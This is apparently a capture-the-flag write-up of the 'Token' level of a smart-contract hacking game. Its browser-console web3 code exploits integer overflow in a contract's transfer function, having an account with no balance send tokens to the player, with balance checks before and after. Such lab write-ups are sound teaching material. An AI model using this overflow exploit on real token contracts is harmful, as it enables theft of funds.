 # Token

Use number overflow to hack the contract. 

Type in the browser console:

```
> web3.utils.fromWei(await contract.balanceOf(player))
'0.00000000000000002'
```

Deploy an instance contract, get it address and assign it to ``instanceAddress`` variable. Assign ``playerAddress`` variable with your account address and ``senderAddress`` with your second account address (from which you will call contract address). Execute the following code:

```
var instanceAddress = '*redacted*';
var playerAddress = '*redacted*';
var senderAddress = '*redacted*';
var amount = web3.utils.toWei('1');
var functionSignature = web3.eth.abi.encodeFunctionSignature('transfer(address,uint256)');
var parametersEncoded = web3.eth.abi.encodeParameters(['address', 'uint256'], [playerAddress, amount]).substring(2);
var encodedTransactionData = functionSignature + parametersEncoded;
await web3.eth.sendTransaction({ data: encodedTransactionData, from: senderAddress, to: instanceAddress });
```

Type in the browser console:

```
> web3.utils.fromWei(await contract.balanceOf(player))
'1.00000000000000002'
```

Level completed.
